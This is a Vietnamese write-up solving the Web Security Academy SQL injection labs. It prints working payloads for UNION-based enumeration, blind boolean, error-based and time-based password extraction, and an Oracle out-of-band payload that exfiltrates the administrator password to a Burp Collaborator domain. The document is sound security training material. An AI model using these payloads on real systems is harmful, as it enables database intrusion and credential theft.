

SQL injection¶
Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data¶
- Ở đây, câu lệnh thực thi sẽ có dạng
SELECT * FROM products WHERE category = 'Gifts' AND released = 1và chúng ta kiểm soát được input trong dấu nháy. - Thử với dấu
'thì response trả về500và''response trả về200⇒ có thể có SQLi -
Thử truyền payload sau, nhân thấy response trả về là những sản phẩm chưa được phát hành ⇒ hoàn thành việc giải lab


Lab: SQL injection vulnerability allowing login bypass¶
Lab: SQL injection vulnerability allowing login bypass | Web Security Academy
-
Trước hết, kiểm tra tại param
passwordthử truyển dấu'thì server trả về500,''thì server trả về200⇒ khả năng có SQLi

-
Thực truyền biểu thức logic như sau, nhận thấy có thể login thành công với tài khoản
administrator. Hoàn thành việc giải lab

Lab: SQL injection attack, querying the database type and version on Oracle¶
Lab: SQL injection attack, querying the database type and version on Oracle | Web Security Academy
-
Trước hết, điều hướng đến chức năng tìm kiếm theo loại (ví dụ
Accessory)
-
Trong phần mềm Burpsuite, thực hiện kiểm tra SQLi với request gửi tới API
GET /filtertại tham sốcategory. Với dấu'server trả về500, với''server trả về200⇒ có khả năng có SQLi.

-
Vì ở đây, dữ liệu của truy vấn trả về ⇒ có thể dùng
UNIONđể select được version qua đó giải lab thành công. Tuy nhiên, ở đây câu truy vấn gốc select 2 cột nên cần thêm một cột null, nếu thiếu sẽ gây lỗi

Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft¶
-
Trước hết, điều hướng đến chức năng tìm kiếm theo loại (ví dụ
Accessory)
-
Trong phần mềm Burpsuite, thực hiện kiểm tra SQLi với request gửi tới API
GET /filtertại tham sốcategory. Với dấu'server trả về500, với''server trả về200⇒ có khả năng có SQLi.

-
Ở đây, nếu payload mình truyền vào không có dấu space ở cuối thì sẽ bị
500⇒ MySQL

-
Thực hiện tìm số côt ⇒ 2 cột


-
Thực hiện lấy version, hoàn thành việc giải lab


Lab: SQL injection attack, listing the database contents on non-Oracle databases¶
-
Thực hiện test xem có SQLi bằng cách thử dấu nháy


-
Thực hiện dùng
UNIONđể xác định Database version, số cột, dạng cột. Từ response trả về suy ra câu lệnh gốc truy vấn 2 cột đều có dạng string, và sử dụng Database PostgreSQL


-
Enum tên bảng bằng lệnh sau
Accessories' union select (SELECT table_name FROM information_schema.tables limit 1),null---
Trong trường hợp muốn enum bảng khác có thể dùng lệnh sau:
Accessories' union select (SELECT table_name FROM information_schema.tables where table_name != users_ljpekn limit 1),null--

-
-
Tiếp theo cần enum tên cột ⇒ sử dụng câu lệnh sau để lấy được cột lưu username, password
' AND 1=0 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_ljpekn' LIMIT 1 OFFSET 2--' AND 1=0 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_ljpekn' LIMIT 1 OFFSET 1--

-
Thực hiện lấy password và hoàn thành lab


Lab: SQL injection attack, listing the database contents on Oracle¶
Lab: SQL injection attack, listing the database contents on Oracle | Web Security Academy
-
Thực hiện test có SQLi không bằng nháy


-
Tiếp theo là xác định database type, column type → Oracle và cả 2 cột trong câu truy vấn gốc là dạng string


-
Tiếp theo là xác định tên tables là
USERS_ENGYTNAccessories' union select table_name,'aa' from all_tables--
-
Sau đó thì enum cột
Accessories' union select column_name,'aa' from all_tab_columns where table_name='USERS_ENGYTN'--
-
Cuối cùng, thực hiện lấy account administrator. Đăng nhập bằng account lấy được và hoàn thành lab


Lab: SQL injection UNION attack, determining the number of columns returned by the query¶
-
Trước hết kiểm tra có SQLi không


-
Xác định database type, số lượng cột. Sử dụng
' or '1'='1'--để loại MySQL và db khác → db khác. Tiếp theo thử' or '1'=()--trong ngoặc sẽ chọn các câu select version khác nhau để xác định db. Cuối cùng xác định được db là PosgreSQL


-
Cuối cùng xác định số lượng cột bằng cách sau (thay đổi số lượng null đến khi status code trả về 200). Suy ra có 3 cột. Hoàn thành việc giải lab.


Lab: SQL injection UNION attack, finding a column containing text¶
Lab: SQL injection UNION attack, finding a column containing text | Web Security Academy
-
Trước hết, xác định có SQLi không


-
Trước hết xác định db type. Ở đây, với việc sử dụng payload này có thể khẳng định không phải MySQL

-
Sau đó, sử dụng các câu lệnh truy vấn version để xác định được db type đúng. Ở đây suy ra PosgreSQL

-
Xác định số cột bằng 3 (thay đổi số lượng null để xác định số cột chính xác)

-
Xác định được cột 2 có dạng text

-
Truyền đoạn text mà lab yêu cầu để hoàn thiện giải lab

Lab: SQL injection UNION attack, retrieving data from other tables¶
Lab: SQL injection UNION attack, retrieving data from other tables | Web Security Academy
-
Trước hết check xem có SQLi


-
Sau đó xác định được db type, số lượng cột là PosgreSQL và có 2 cột


-
Đề bài có cho sẵn tên bảng và cột, thực hiện payload sau lấy được username:password

-
Login và hoàn thành giải lab

Lab: SQL injection UNION attack, retrieving multiple values in a single column¶
-
Trước hết kiểm tra xem có SQLi không


-
Tiếp theo xác định db type, số lượng cột, dạng cột. Sử dụng payload trong hình để có thể xác định chính xác. Ở đây, db là PosgreSQL, có 2 cột, và cột 2 có dạng text


-
Cuối cùng, xác định credential dựa trên cấu trúc bảng mà đề cho. Ở vì chỉ có cột 2 là dạng text nên ta có thể concat chuỗi để trả về

-
Thực hiện login thành công hoàn thành giải lab

Lab: Blind SQL injection with conditional responses¶
Lab: Blind SQL injection with conditional responses | Web Security Academy
-
Trước hết test xem có SQLi ở vị trí
TrackingId→'''cho response giống nhau và choContent-lengthkhác response củaTrackingIdhợp lệ. Tuy nhiên khi sử dụng'||'thì cho response giốngTrackingIdhợp lệ → có nối chuỗi được → có SQLi ở đây:


-
Tiếp theo là đoán DB type bằng cách dùng truy vấn version → PostgreSQL


-
Ở đây chỉ có
Content-Lengthlà khác biệt giữa query đúng và query sai → blind, tuy nhiên thì hàmpg_sleep()không hoạt động nên chỉ có thể dùng biểu thức sau để đoán các ký tựZ1j' or (SELECT password from users where username='administrator') like '%' and '1'='1-
Hoặc ở đây cũng có thể sử dụng
SUBSTRING()để chạy từng ký tự và có thể dùng BurpIntruderZ1j' or 'p'=substring((SELECT password from users where username='administrator'),1,1) and '1'='1
-
-
Tiếp theo là cần tìm được độ dài password phục vụ cho việc truyền vào hàm substring ở bước sau
-
Thực hiện config BurpIntruder như sau:

-
Kết quả chạy:

-
-
Sau đó, ta sẽ lấy độ dài từ bước trước và config BurpIntruder như sau để lấy được password và login
- Sử dụng
Cluster bombđể bruteforce -
Với vị trí đầu config như sau:

-
Với vị trí hai, config như sau:

-
Kết quả:

- Sử dụng
-
Login với credential
administrator:p11hyydslj4wejvyykn6. Hoàn thành việc giải lab
Lab: Blind SQL injection with conditional errors¶
Lab: Blind SQL injection with conditional errors | Web Security Academy
-
Trước hết, test có SQLi không bằng cách sử dụng dấu
',''→ có khác nhau về status code trả về → có thể có SQLi

-
Tuy nhiên khi dùng
' or '1'='1và' or '1'='2thì response để trả về như nhau → kết quả request không có ích → cần trigger error

-
Xác định DB type → nếu lệnh không hợp lệ sẽ trả về 500 (error) từ đó xác định DB là Oracle
-
Với DB sai

-
Với DB đúng

-
-
Vậy thì chúng ta sẽ xác định độ dài password trước bằng cách dùng payload sau:
9lfwbcnv' or '1'=(SELECT CASE WHEN (1=(select LENGTH(password) from users where username='administrator')) THEN TO_CHAR(1/0) ELSE NULL END FROM dual) and '1'='1-
Config BurpIntruder như sau:

-
Kết quả chạy:

-
Từ đó suy ra password có độ dài 20
- Tiếp theo lấy password bằng payload sau:
9lfwbcnv' or 'a'=(substr((select password from users where username='administrator'),1,1)) and '1'='1-
Config BurpIntruder như sau:
-
Chế độ chạy:

-
Với vị trí 1:

-
Với vị trí 2:

-
-
Kết quả chạy

-
Password lấy được là
xlbofbb8ql7ffq36nb9j - Thực hiện login bằng account
administrator:xlbofbb8ql7ffq36nb9j. Hoàn thành giải lab

-
Lab: Visible error-based SQL injection¶
Lab: Visible error-based SQL injection | Web Security Academy
-
Trước hết, kiểm tra SQLi bằng các sử dụng
',''→'trả về 500 và''trả về 200 → có thể có SQLi-
Với dấu
'
-
Với dấu
''
-
-
Tiếp theo là enum DB
-
Với DB sai response sẽ trả về status code 500

-
Với DB đúng response sẽ trả về status code 200

-
Từ đó kết luận DB là PostgreSQL
- Ở trong lab này, khi truy vấn sai syntax khiến cho query lỗi thì sẽ có thông báo trả về response → có thể lấy được thông tin qua thông báo lỗi. Ở đây, DB là PostgreSQL nên ta sẽ sử dụng payload sau để trigger lỗi
CAST((SELECT password FROM users LIMIT 1) AS int)-
Kết quả khi sử dụng payload trên

-
-
Từ đó lấy được credential là
administrator:dq1p6enmi3c3mg4v10pz. Thực hiện đăng nhập và hoàn thành việc giải lab
Lab: Blind SQL injection with time delays¶
Lab: Blind SQL injection with time delays | Web Security Academy
-
Trước hết, thử các chèn dấu
',''nhưng đều không khác biệt. Ngoài ra cũng không thể trigger error → thử time based thì được
-
Từ đây suy ra được DB là PostgreSQL. Tuy nhiên thì lab này chỉ yêu cầu trigger time delay vậy là hoàn thành giải lab

Lab: Blind SQL injection with time delays and information retrieval¶
Lab: Blind SQL injection with time delays and information retrieval | Web Security Academy
-
Trước hết, thử sử dụng chèn
'thì không gây ra lỗi hay response khác biệt → thử sử dụng time based thì delay được → có SQLi
-
Từ đó cũng suy ra được DB là PostgreSQL. Sử dụng payload sau để xác định được độ dài của password
6hbyp5EftWaDbcZu'; SELECT CASE WHEN (20=(select length(password) from users where username='administrator')) THEN pg_sleep(10) ELSE pg_sleep(0) END---
Config BurpIntruder như sau:


-
Kết quả chạy:

-
Suy ra độ dài password là 20
-
-
Sau đó, với độ dài password tìm được, config BurpIntruder như sau để tìm mật khẩu
-
Sử dụng
Cluster bomb
-
Vị trí payload đầu tiên, config như sau:


-
Vị trí payload thứ hai, config như sau:

-
Kết quả chạy:

-
Từ đó suy ra được password là
mkrjr997t8z1pyjn9idv - Thực hiện login với credential
administrator:mkrjr997t8z1pyjn9idv. Hoàn thành giải lab

-
Lab: Blind SQL injection with out-of-band interaction¶
Lab: Blind SQL injection with out-of-band interaction | Web Security Academy
- Thực hiện thử chèn
'không gây ra khác biệt về response. Tiếp theo dùng time base cũng không được. Sau đó, sử dụng oob thì được. Ở đây, chúng ta nên thực hiện tiếp tục nối query chứ không nên ngắt query trước đó vì có thể một số db không cho phép thực hiện Batched Query (như Oracle). -
Ở bài này, chúng ta chỉ cần trigger được oob là hoàn thành giải lab
-
Payload sử dụng
7t4R9mXVUu7hFiV7' or 1=(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://6mtiib43bzxxm7w1mwcab4mqlhr8f43t.oastify.com/"> %remote;]>'),'/l') FROM dual) or '1'='1 -
Kết quả
-
Thực hiện gửi request

-
Trigger thành công

-
Kết quả hoàn thành lab

-
-
Lab: Blind SQL injection with out-of-band data exfiltration¶
Lab: Blind SQL injection with out-of-band data exfiltration | Web Security Academy
-
Trước hết thử chèn
', time based đều không được. Sau đó, thử payload oob thì trigger được Burp collab-
Payload sử dụng:
cUkmvStjJs02avX2' or (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://hbwt7mte0am8bilcb71l0fb1asgj4lsa.oastify.com/"> %remote;]>'),'/l') FROM dual) or '1'='1 -
Gửi request

-
Trigger thành công collab

-
-
Sau đó, thực hiện lấy
passwordbằng cách nối vào burp domain và gửi về burp collab-
Payload
cUkmvStjJs02avX2'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.hpatlm7eea08pizcp7flefp1osujio6d.oastify.com/"> %remote;]>'),'/l') FROM dual)||' -
Gửi request

-
Trigger thành công và lấy được password là
q2s6ccr9jriajag31g8h
-
-
Login bằng
passwordlấy được. Hoàn thành việc giải lab
Lab: SQL injection with filter bypass via XML encoding¶
Lab: SQL injection with filter bypass via XML encoding | Web Security Academy
- Ở bài lab này, khi chúng ta nhập các ký tự như
'vào param<productId>trong request gửi tới APIPOST /product/stockthì sẽ bị chặn → burp scan không scan ra SQLi -
Tuy nhiên, thì khi chèn payload sau, có thể trích xuất nhiều hơn các sản phẩm so với response ban đầu → có SQLi
-
Payload
or '1'='1' -
Response ban đầu

-
Response lúc sau

-
-
Vì query ở đây chỉ trả về 1 trường nên có thể đoán request phía dev sử dụng dạng như này
select level from stock_level where product_id = $pid and store_id = $sid -
Từ đó có thể enum db, tên bảng, lấy được password.
-
Payload enum db
1 union select TABLE_NAME from information_schema.tables-- -
Request gửi để enum db. Từ đó suy ra db sử dụng không phải Oracle đồng thời enum ra các bảng có trng db

-
Tiếp theo enum tên cột, ta sẽ enum cột của bảng
users-
Các bảng có trong đó có bảng
users
-
Các cột có trong bảng
users
-
Lấy
usernamevàpasswordnhư sau:

-
-
-
Login và hoàn thành giải lab